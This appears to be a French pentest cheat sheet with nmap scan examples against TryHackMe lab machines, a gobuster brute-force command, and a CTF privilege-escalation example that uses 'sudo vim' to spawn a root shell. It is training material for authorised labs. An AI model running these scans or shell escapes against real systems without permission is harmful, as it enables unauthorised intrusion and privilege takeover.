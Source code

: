 # Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version
* -sC : affiche les scripts par défaut qui sont activés

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    $ sudo nmap -sS -Pn -sV 10.10.188.70
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:24 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.13s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE       VERSION
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    3389/tcp  open  ms-wbt-server Microsoft Terminal Service
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    8000/tcp  open  http          Icecast streaming media server
    49152/tcp open  msrpc         Microsoft Windows RPC
    49153/tcp open  msrpc         Microsoft Windows RPC
    49154/tcp open  msrpc         Microsoft Windows RPC
    49158/tcp open  msrpc         Microsoft Windows RPC
    49159/tcp open  msrpc         Microsoft Windows RPC
    49161/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 96.35 seconds

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    $ sudo nmap -sS -sC 10.10.188.70
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:29 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.16s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5357/tcp  open  wsdapi
    8000/tcp  open  http-alt
    |_http-title: Site doesn't have a title (text/html).
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49159/tcp open  unknown
    49161/tcp open  unknown

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
    |_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e6:92:75:0f:81 (unknown)
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: Dark-PC
    |   NetBIOS computer name: DARK-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-09-24T10:29:37-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-09-24T15:29:36
    |_  start_date: 2021-09-24T15:18:11

    Nmap done: 1 IP address (1 host up) scanned in 138.91 seconds

### Gobuster

[gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```


## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>$ sudo -l
    <br/>User mitch may run the following commands on Machine:
    <br/>(root) NOPASSWD: /usr/bin/vim

    <br/>$ sudo vim -c ':!/bin/sh'
    <br/># ^[[2;2R^[]11;rgb:3030/0a0a/2424^G
    <br/>/bin/sh: 1: ot found
    <br/>/bin/sh: 1: 2R: not found
    <br/># whoami
    <br/>root



